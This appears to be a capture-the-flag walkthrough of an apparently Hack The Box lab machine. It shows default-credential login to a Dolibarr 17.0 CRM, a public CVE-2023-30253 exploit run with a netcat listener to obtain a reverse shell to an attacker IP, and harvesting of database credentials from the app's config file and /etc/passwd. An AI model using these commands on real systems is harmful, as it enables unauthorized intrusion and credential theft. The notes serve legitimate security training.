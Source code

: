 had to add `-fs 15949` since it was giving 200 for all subdomains.
Found crm subdomain.

INFO: admin:admin worked on crm.board.htb

Saw dolibarr version 17.0, tried exploit from msf but it didn't work.
Found another [exploit](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

```bash
# in one shell
nc -nlvp 4444
# in another shell
python doli_exp.py http://crm.board.htb admin admin 10.10.14.120 4444
```

Got reverse shell

!!! tip

    Look for config file of the tool you just broke into.

Found doli creds in /var/www/html/crm.board.htb/htdocs/conf/conf.php
Got users of system from /etc/passwd

```bash
cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
# $dolibarr_main_url_root='http://crm.board.htb';                                                                                              
# $dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';                                                                           
# $dolibarr_main_url_root_alt='/custom';                                                                                                       
# $dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';                                                                
# $dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';                                                                            
# $dolibarr_main_db_host='localhost';                                                                                                          
# $dolibarr_main_db_port='3306';
# $dolibarr_main_db_name='dolibarr';
# $dolibarr_main_db_prefix='llx_';
# $dolibarr_main_db_user='dolibarrowner';
# $dolibarr_main_db_pass='serverfun2$2023!!';
# $dolibarr_main_db_type='mysqli';
# $dolibarr_main_db_character_set='utf8';
# $dolibarr_main_db_collation='utf8_unicode_ci';
# // Authentication settings
# $dolibarr_main_authentication='dolibarr';
cat /etc/passwd
# larissa:x:1000:1000:,,,:/home/larissa:/bin/bash
```

Got mysql creds. To login to mysql

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
mysql -D dolibarr -u dolibarrowner -p
```
